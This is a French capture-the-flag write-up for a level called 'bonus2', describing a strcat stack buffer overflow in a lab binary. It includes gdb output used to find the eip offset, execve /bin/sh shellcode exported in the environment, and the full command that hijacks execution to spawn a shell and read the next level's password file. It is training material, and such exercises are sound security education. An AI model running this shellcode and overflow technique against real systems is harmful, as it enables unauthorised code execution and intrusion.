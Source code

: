 ## bonus2
- En examinant le [code source désassemblé](source.c), on repère une faille envisageable au niveau du [`strcat`](https://linux.die.net/man/3/strcat) :
    - > The strcat() function appends the src string to the dest string, overwriting the terminating null byte ('\0') at the end of dest, and then adds a terminating null byte. The strings may not overlap, and the dest string must have enough space for the result. *If dest is not large enough, program behavior is unpredictable; buffer overruns are a favorite avenue for attacking secure programs.*
    - On arrive effectivement à réécrire l'`eip` (testé avec `LANG=nl`) :
    ```
    (gdb) r $(python -c "print 'A'*40") BBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLL
    Starting program: /home/user/bonus2/bonus2 $(python -c "print 'A'*40") BBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLL
    Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLL

    Program received signal SIGSEGV, Segmentation fault.
    0x4a4a4a49 in ?? ()
    (gdb) i r
    eax            0x56	86
    ecx            0xffffffff	-1
    edx            0xb7fd28b8	-1208145736
    ebx            0xbffff260	-1073745312
    esp            0xbffff210	0xbffff210
    ebp            0x49494848	0x49494848
    esi            0xbffff2ac	-1073745236
    edi            0xbffff25c	-1073745316
    eip            0x4a4a4a49	0x4a4a4a49
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
    L'`eip` a pour valeur `IJJJ` => il démarre au 24e caractère de `argv[2]` (et il faudra donc 23 caractères de *padding* dans le `argv[2]` de notre exploit).
- Tout comme dans le [level bonus0](/bonus0/README.md), on va écraser l'`eip` et le faire pointer vers un *shellcode* exporté préalablement dans l'environnement.
    - `export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`
    - Depuis `gdb`, mettre un *breakpoint* sur `main` puis lancer l'exécution. Utiliser `x/10s *((char **)environ)` pour retrouver l'adresse de notre exploit dans l'environnement => `0xbffff4f0`. Toutefois, cette adresse peut changer selon les arguments, on va donc ajouter 256 octets de décalage => `0xbffff5f0` (ce décalage n'impacte en rien le fonctionnement de notre exploit, puisque ce dernier commence par 1024 octets de [`NOP`](https://en.wikipedia.org/wiki/NOP_(code))).
    - ``./bonus2 `python -c 'print "A"*40'` `python -c 'print "\x90"*23 + "\xf0\xf5\xff\xbf"'` ``nous permet bien de lancer un *shell*. `cat /home/user/bonus3/.pass` pour récupérer le *flag*.